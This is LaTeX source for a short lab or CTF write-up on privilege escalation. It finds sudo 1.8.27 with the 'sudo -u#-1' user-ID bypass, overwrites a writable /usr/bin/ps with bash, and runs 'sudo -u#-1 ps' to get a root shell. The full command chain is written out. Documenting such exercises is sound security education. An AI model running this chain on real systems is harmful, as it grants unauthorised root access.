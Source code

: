 \documentclass[notitlepage]{article}
\begin{document}
    \subsection{Vulnerability Discovery}
    Once we gain access, we see there are two directories that are not standard Linux Directories: Bins and Src. If we enter the src directory, we see
    that it is an install for sudo version 1.8.27. This is important to note as this implies that perhaps that is the version that is running on the machine.
    Using the command "sudo -V" reveals that this is the case. After some research, we can see that this version of sudo (any version less than 1.8.28) is susceptible
    to an exploit where users can run specific sudo commands as a root user using the following structure
\begin{verbatim}
sudo -u#-1 [command]
\end{verbatim}
    What this does is allow a user to run a command as user -1 which is not a valid user and tricks the kernel into instead running the command as user 0 or root user 
    as is more commonly known. What we need to do then is see what specific command we can run as l.strauss that allows us to use the -u flag for. The way to view this is
    as using the following command
\begin{verbatim}
sudo -l
User l.strauss may run the following commands on devbox:
    (ALL, !root) /usr/bin/ps
\end{verbatim}
    This reveals we can run the ps command as other users. The executable for this command is located in /usr/bin/ps and using 
\begin{verbatim}
getfacl /usr/bin/ps
\end{verbatim}
    Reveals we in fact have write access to this executable. Thus, the conclusion was drawn that if we overwrite the ps command with some other executable such as a shell, we can then get root access
    to a shell using the sudo vulnerability. To do this, we can use the bash executable and write this over the ps executable. One easy way to do this is as follows
\begin{verbatim}
whereis bash
\end{verbatim}
    Which reveals that bash is in /usr/bin/bash, then we do
\begin{verbatim}
getfacl /usr/bin/bash
\end{verbatim}
    Which reveals we also have write access to this file, thus we can then copy this over ps as follows
\begin{verbatim}
cp /bin/bash /usr/bin/ps
\end{verbatim}
    and then to get the root bash, we put it all together as follows
   \begin{verbatim}
sudo -u#-1 ps
   \end{verbatim}
   After all this, we now have a root bash
\end{document}
